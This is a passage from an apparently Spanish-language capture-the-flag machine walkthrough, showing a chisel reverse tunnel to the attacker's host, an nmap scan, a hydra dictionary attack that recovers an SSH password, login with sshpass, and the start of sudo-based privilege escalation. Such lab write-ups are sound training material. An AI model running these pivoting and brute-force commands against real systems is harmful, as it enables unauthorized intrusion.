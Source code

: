 Ahora en la máquina víctima nos conectamos a nuestra máquina de atacante y nos compartimos el puerto `222` de la máquina víctima a nuestro puerto local `222`
```console
(remote) killer@lang:/tmp$ ./chisel client 192.168.2.3:1234 R:222:127.0.0.1:222
2024/11/27 15:51:29 client: Connecting to ws://192.168.2.3:1234
2024/11/27 15:51:29 client: Connected (Latency 685.787µs)
```

Entonces ahora significa, que nuestro puerto local `222` es el puerto `222` de la máquina víctima, podemos comprobarlo rápidamente con `nmap`
```console
nmap -p222 127.0.0.1 -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-27 15:52 CET
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00013s latency).

PORT    STATE SERVICE VERSION
222/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 f0:e6:24:fb:9e:b0:7a:1a:bd:f7:b1:85:23:7f:b1:6f (RSA)
|   256 99:c8:74:31:45:10:58:b0:ce:cc:63:b4:7a:82:57:3d (ECDSA)
|_  256 60:da:3e:31:38:fa:b5:49:ab:48:c3:43:2c:9f:d1:32 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.42 seconds
```

Ahora con `hydra` podernos hacer un ataque con diccionario a este puerto utilizando el nombre de usuario `satanas` y al rato conseguimos una credencial.
```console
hydra -l satanas -P /usr/share/wordlists/rockyou.txt 127.0.0.1 ssh -t 64 -s 222 -V -I
.....
[ATTEMPT] target 127.0.0.1 - login "satanas" - pass "buttercup" - 703 of 14344436 [child 11] (0/37)
[ATTEMPT] target 127.0.0.1 - login "satanas" - pass "nichole" - 704 of 14344436 [child 39] (0/37)
[ATTEMPT] target 127.0.0.1 - login "satanas" - pass "bambam" - 705 of 14344436 [child 33] (0/37)
[ATTEMPT] target 127.0.0.1 - login "satanas" - pass "nothing" - 706 of 14344436 [child 40] (0/37)
[ATTEMPT] target 127.0.0.1 - login "satanas" - pass "glitter" - 707 of 14344436 [child 41] (0/37)
[222][ssh] host: 127.0.0.1   login: satanas   password: nothing
```

En la máquina víctima no tenemos permiso para ejecutar el binario `su`. Así que tenemos que acceder mediante el SSH del puerto compartido.
```console
(remote) killer@lang:/tmp$ su satanas
bash: /usr/bin/su: Permiso denegado
```

```console
sshpass -p 'nothing' ssh satanas@127.0.0.1 -p 222
satanas@lang:~$ id
uid=1001(satanas) gid=1001(satanas) grupos=1001(satanas)
```

# Privilege Escalation
## Abusing sudo `topal` binary + pager 
Vemos que podemos ejecutar como `root` y sin necesidad de contraseña un binario llamado `topal`
```console
satanas@lang:~$ sudo -l
Matching Defaults entries for satanas on lang:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User satanas may run the following commands on lang:
    (root) NOPASSWD: /usr/bin/topal
```